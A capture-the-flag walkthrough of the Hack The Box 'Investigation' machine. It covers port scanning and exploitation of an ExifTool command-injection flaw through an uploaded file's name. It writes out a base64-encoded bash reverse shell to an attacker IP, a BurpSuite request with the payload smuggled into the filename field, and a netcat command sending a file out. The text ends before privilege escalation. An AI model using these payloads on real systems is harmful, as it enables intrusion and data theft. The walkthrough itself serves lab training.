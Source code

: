 # Hack The Box - Investigation Walkthrough

## Reconnaissance
Retrieving the IP address of the machine, I started a quick inital Nmap scan to see which ports are open and which services are running on those ports.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Investigation]
└─$ nmap -Pn -T4 -p- --min-rate=1000 -sV 10.10.11.197
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 10:38 EDT
Warning: 10.10.11.197 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.197
Host is up (0.12s latency).
Not shown: 65479 closed tcp ports (conn-refused), 54 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.49 seconds
```


Before starting the enumeration, I wanted to check if any other ports were open, so I ran `rustscan` to quickly check if any other ports were open.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Investigation]
└─$ rustscan -a 10.10.11.197 --range 1-65535
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.197:22
Open 10.10.11.197:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.11.197

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 10:40 EDT
Initiating Ping Scan at 10:40
Scanning 10.10.11.197 [2 ports]
Completed Ping Scan at 10:40, 0.13s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:40
Completed Parallel DNS resolution of 1 host. at 10:40, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 10:40
Scanning 10.10.11.197 [2 ports]
Discovered open port 22/tcp on 10.10.11.197
Discovered open port 80/tcp on 10.10.11.197
Completed Connect Scan at 10:40, 0.12s elapsed (2 total ports)
Nmap scan report for 10.10.11.197
Host is up, received syn-ack (0.13s latency).
Scanned at 2023-03-16 10:40:47 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```

So, `nmap` & `rustscan`, both, found `2` open ports:
- port `22`: running `OpenSSH 8.2p1`
- port `80`: running `Apache httpd 2.4.41`

## Enumeration
I started the enumeration by visiting the web portal on port `80`. Before visiting the portal I added the host to my `/etc/hosts` file. 

```
sudo echo `10.10.11.197 eforenzics.htb` >> /etc/hosts
```

The portal allowed users to upload a `JPG` file and provide analytical information.

![image](https://user-images.githubusercontent.com/87711310/225653950-d92f3ab8-8c30-4113-9992-40ee8eb46e30.png)

I uploaded an image and clicked the link it provided, there was a text file that contained `Exiftool` output details and the version of `Exiftool` was also given, which was `12.37`

![image](https://user-images.githubusercontent.com/87711310/225654341-6aa794bb-a18f-4265-9cd5-9d13b1ef2561.png)

So, i googled about `Exiftool 12.37` and I found out that it was vulnerable to [CVE-2022-23935](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)

In a nutshell, if the attacker provides a file with a name ending with | character, the tool will treat it as a pipe and execute it as an OS command.

So, I decided to start `BurpSuite` to intercept the packet, and changed the `filename` parameter to a `ping` command to verify the vulnerability/

![image](https://user-images.githubusercontent.com/87711310/225663455-a48458b1-4d5f-452c-bd35-c67c75643492.png)

To obtain the reverse shell, I need to replace the `ping` command with the `reverse-shell` payload in the `filename` parameter. It turned out that the machine escaped some characters like `/`. So, I decided to `Base64` encode the script:

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Investigation]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg==
```

And change the filename through `BurpSuite`:

```
# BurpSuite
POST /upload.php HTTP/1.1
Host: eforenzics.htb
...
...
-----------------------------322887901231410547541681300375
Content-Disposition: form-data; name="image"; filename="echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg=='|base64 -d|bash|"
Content-Type: image/jpeg

<DATA>
```

I clicked send, and I got the shell instantly

![image](https://user-images.githubusercontent.com/87711310/225668776-cbb21aad-d090-494d-ad28-364838666f49.png)

I was logged in as `www-data`, enumerating the machine I found out that I did not have the permission to view the `smorton` folder. So, I had to escalate my privileges

```
www-data@investigation:~$ cd /home
cd /homel
www-data@investigation:/home$ s
ls
smorton
www-data@investigation:/home$ cd smorton
cd smorton
bash: cd: smorton: Permission denied
www-data@investigation:/home$ 
```

I was stuck at this part for a while but after looking at all the folder for a possible way to escalate the privileges, I found out that there was a `investigation` folder inside the `/usr/local` folder.

```
www-data@investigation:/$ cd /usr
cd /usr
www-data@investigation:/usr$ cd /local
cd /local
www-data@investigation:/usr$ cd local
cd local
www-data@investigation:/usr/local$ ls
ls
bin
etc
games
include
investigation
lib
man
sbin
share
src
```

The files in the directories were:

```
www-data@investigation:/usr/local/investigation$ ls -la *
ls -la *
-rw-rw-r-- 1 smorton  smorton  1308160 Oct  1 00:35 Windows Event Logs for Analysis.msg
-rw-rw-r-- 1 www-data www-data       0 Oct  1 00:40 analysed_log
```

The `Windows Event Logs for Analysis.msg` was a Microsoft Outlook Message, meaning I had to transfer it to my machine and look to convert the message.

```
www-data@investigation:/usr/local/investigation$ file "Windows Event Logs for Analysis.msg"
<igation$ file "Windows Event Logs for Analysis.msg"
Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook Message
```

So, I used `netcat` to transfer the file from the victim machine to my machine.

```
nc  10.10.14.8 10000 < Windows\ Event\ Logs\ for\ Analysis.msg 
```
